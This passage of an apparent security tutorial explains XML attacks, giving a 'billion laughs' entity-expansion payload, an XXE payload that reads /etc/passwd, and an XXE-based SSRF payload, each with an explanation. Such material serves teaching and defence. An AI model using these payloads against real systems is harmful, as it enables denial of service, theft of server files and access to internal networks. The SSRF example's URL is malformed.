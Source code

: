 Here's an example of a "billion laughs" attack:

```xml
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- Repeat the above line many times -->
  <!ENTITY lol10 "&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;">
]>
<lolz>&lol10;</lolz>
```

Explanation:

- In this example, the XML document defines a set of entities (**`lol`**, **`lol1`**, **`lol2`**, ..., **`lol10`**) that reference each other multiple times within their definitions.
- The entity **`lol10`** references **`lol9`** multiple times, which in turn references **`lol8`**, and so on, creating a nested structure of entity references.
- When the XML parser encounters the **`&lol10;`** entity reference, it attempts to recursively expand all the entities it depends on, leading to an exponential growth of entities and causing resource exhaustion in the parser.

This example demonstrates how a relatively small XML document can be crafted to consume large amounts of resources and potentially disrupt the operation of an XML parser, highlighting the importance of mitigating such attacks in XML processing.

**`Data Extraction Attacks**:`
In a data extraction attack, an attacker exploits the XXE vulnerability to read sensitive data from the server. This could include system files, configuration files, or any other files accessible to the application.

```xml
<!-- Malicious XML payload -->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>

```

In this example, the attacker injects a malicious XML entity `xxe` that reads the contents of the `/etc/passwd` file. When the server processes this XML, it will replace `&xxe;` with the contents of the `/etc/passwd` file, effectively leaking sensitive information.

**Server-Side Request Forgery (SSRF)**:
SSRF is a vulnerability that allows an attacker to force the server to make requests on behalf of the attacker. In the context of XXE attacks, SSRF can be used to make internal network requests to access sensitive resources.

```xml
<!-- Malicious XML payload -->
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "<http://internal-server/internal-resource>">
]>
<foo>&xxe;</foo>

```
